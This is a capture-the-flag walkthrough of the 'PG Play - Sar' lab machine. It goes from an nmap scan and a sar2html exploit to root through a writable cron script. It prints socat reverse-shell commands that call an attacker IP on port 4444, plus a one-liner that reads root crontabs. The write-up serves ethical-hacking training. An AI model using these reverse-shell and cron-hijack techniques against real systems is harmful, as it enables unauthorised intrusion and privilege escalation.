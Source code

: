 # PG Play - Sar
## Machine Author: Love Sharma
## Released on: Jul 20, 2020
### Difficulty: Easy
### Community Difficulty: Easy
### Description: This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.
| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened out of habit I manually checked for common files in the web directory, and found sar2html in robots.txt. |
| 3. | I found an exploit for sar2html which I figured I'd test out real quick. https://github.com/AssassinUKG/sar2HTML&ved=2ahUKEwi64tH145iFAxWepVYBHRJtC3gQFnoECAsQAQ&usg=AOvVaw09b6JcvNV9blzX1NKL5321 |
| 4. | This gave me a foothold with a dumb shell as the www user, I now needed to spawn a tty shell. |
| 5. | I tested a few different types of tty shell spawns, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands |
| 5.1 | On my attack box ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 5.2 | On the target ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` | 
| 6. | I'd transferred linpeas over earlier with the dumb shell but made it a priority to get a tty first. I found that I had access to the /var/spool/cron/crontabs folder which included cron jobs for the root user. I discovered that a script called finally.sh ran on every 5th minute as a cron job this file was only executable and readable by me. |
| 6.1 | I found another nice command that could of found this cron job quicker: ```cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"``` |
| 7. | I navigated to the finally.sh file at ```/var/www/html/finally.sh``` |
| 8. | When I read the finally.sh I found the scripts only purpose is to run another script called write.sh every 5th minute, I had read, write and execute permissions of the write.sh file. All the write.sh file did was create a empty file in the tmp directory called gateway. |
| 9. | I modified write.sh to include the socat reverse shell, since the cronjob for finally.sh ran every 5 minutes it would provide me, in theory which a reverse shell as root. |
| 10. | This worked and I was able to obtain the proof.txt for this machine |

| Lessons Learnt: | |
| --- | --- |
| 1. | This machine reminded me of a couple of things I learnt from the TCM Academy course on Ethical hacking, which was taking advantage of files that were either directly ran as root and I was capable of modifying. |
| 2. | The value of a tty shell |
